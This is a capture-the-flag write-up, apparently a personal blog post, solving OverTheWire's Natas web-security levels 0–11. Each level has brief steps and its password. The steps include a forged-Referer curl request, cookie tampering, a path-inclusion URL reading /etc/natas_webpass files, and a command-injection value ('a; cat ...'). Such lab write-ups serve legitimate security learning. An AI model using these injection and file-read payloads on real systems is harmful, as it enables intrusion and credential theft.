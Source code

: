 ```yaml
---
title: natas
description: Natas from overthewire
layout: post
---
```

<h2> Natas0 </h2>
* View page source
* gtVrDuiDfck831PqWsLEZy5gyDz1clto

<h2> Natas1 </h2>
* View page source by typing view-source in the link
* ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

<h2> Natas2 </h2>
* View source to find src = files/pixel.png
* go to [website]/files/
* sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

<h2> Natas3 </h2>
* [website]/robots.txt
* [website]/s3cr3t/
* Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

<h2> Natas4 </h2>
* curl -H "Referer: http://natas5.natas.labs.overthewire.org/" -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org/
* iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

<h2> Natas5 </h2>
* Saw that there was cookie called loggedin that was set to 0
* Opened up console and did document.cookie="loggedin=1"
* aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

<h2> Natas6 </h2>
* Saw that there was an "includes/secrets.inc" file
* Visited http://natas6.natas.labs.overthewire.org/includes/secret.inc 
* Saw that the secret is FOEIUWGHFEEUHOFUOIU
* 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

<h2> Natas7 </h2>
* http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
* DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

<h2> Natas8 </h2>
* Used hex2bin php command on 3d3d516343746d4d6d6c315669563362
* Got the value b3ViV1lmMmtCcQ==, and then reversed it
* Got oubWYf2kBq as the decoded base 64 value
* W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

<h2> Natas9 </h2>
* Injection vulnerability
* a; cat /etc/natas_webpass/natas10
* nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

<h2> Natas10 </h2>
* input "1 /etc/natas_webpass/natas11" into search query
* U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

<h2> Natas11 </h2>
* Look at code snippet here: https://github.com/dillonwu-97/csec-code/blob/master/natas/natas11.php
* EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

